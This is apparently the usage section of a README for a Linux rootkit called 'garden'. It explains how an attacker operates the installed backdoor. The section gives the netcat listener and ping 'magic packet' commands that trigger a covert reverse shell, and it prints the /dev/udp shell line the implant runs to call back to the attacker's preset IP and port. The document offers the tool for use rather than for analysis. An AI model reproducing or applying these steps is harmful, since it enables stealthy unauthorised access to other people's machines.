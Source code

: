 ## Usage

**General**

After configuration and installation, most of the usage of this rootkit will originate from the installed `garden` binary in the `/` directory. Run `$ /garden` for an overview of the options.

**Reverse Shell**

To use the reverse shell, you must input an IP address and port during the setup process. The reverse shell will only connect to this IP address and this port so that installing this rootkit on a machine doesn't leave the machine completely exposed.

The reverse shell can be activated by sending an ICMP ping to the IP address of the machine you are attackiing. Make sure to have a `netcat` listener already open on the port you entered during setup.

On `macOS`, you would enter this series of commands to open a reverse shell:

```bash
$ nc -u -l PORT  # Open a netcat listener in one tab
# Open a new terminal tab
$ ping IP_ADDRESS_BEING_ATTACKED # Send magic packet
```

When the machine being attacked gets the ping, it will compare the source IP address of the ping to the IP address entered during configuration. If they match, it will run `$ echo "sh -i >& /dev/udp/IP/PORT 0>1&" | bash` to spawn a reverse shell.
